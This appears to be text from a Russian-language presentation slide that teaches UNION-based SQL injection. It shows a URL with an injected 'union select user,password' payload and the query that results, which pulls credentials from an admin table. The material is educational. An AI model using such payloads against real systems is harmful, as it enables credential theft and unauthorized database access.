

# Пример использования оператора Union
http://example.org/getproduct?id=-1+union+select+user,password,0+from+admin
SELECT name, description, cost FROM products
WHERE id = -1
UNION
SELECT user, password, 0
FROM admin